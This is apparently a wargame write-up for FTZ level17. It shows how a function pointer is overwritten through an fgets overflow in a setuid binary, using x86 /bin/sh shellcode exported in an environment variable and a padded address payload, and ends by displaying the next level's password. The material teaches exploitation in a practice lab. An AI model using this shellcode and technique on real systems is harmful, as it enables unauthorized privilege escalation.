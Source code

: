 # Level17

## This level's goal
- Function pointer modulation

***

```
[level17@ftz level17]$ ls -l
-rwsr-x---    1 level18  level17     13853 Mar  8  2003 attackme
-rw-r-----    1 root     level17       191 Mar  8  2003 hint

[level17@ftz level17]$ cat hint

#include <stdio.h>

void printit() {
  printf("Hello there!\n");
}

main()
{ 
  int crap;
  void (*call)()=printit;
  char buf[20];
  fgets(buf,48,stdin);
  setreuid(3098,3098);
  call();
}
```

The hint seems almost same as level15 and level16, but I need to change printit() to egg shell code to exploit this level.

In level15 and level16, we could understand the memory size.

buf(20bytes) + dummy(20bytes) + \*printit(4bytes,0xbffff048) + crap(4bytes,0xbffff04c) + dummy(8bytes) + SPF(4bytes) + RET(4bytes).

I will make egg.c(shell code) and getegg.c(to get shell code address).

```
[level17@ftz level17]$ export EGG=`python -c 'print "\x90"*15+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

[level17@ftz tmp]$ cat getegg.c
#include <stdlib.h>
main() {
        printf("EGG : %p", getenv("EGG"));
}

[level17@ftz tmp]$ gcc getegg.c -o getegg
[level17@ftz tmp]$ ./getegg
EGG : 0xbffffc8e
```

The shell code address is 0xbffffc8e, so the attack code will be 40bytes dummy strings + shell code's address(0xbffffc8e).

```
[level17@ftz level17]$ (python -c 'print "A"*40+"\x8e\xfc\xff\xbf"'; cat) | ./attackme

id
uid=3098(level18) gid=3097(level17) groups=3097(level17)

my-pass
Level18 Password is "why did you do it".
```
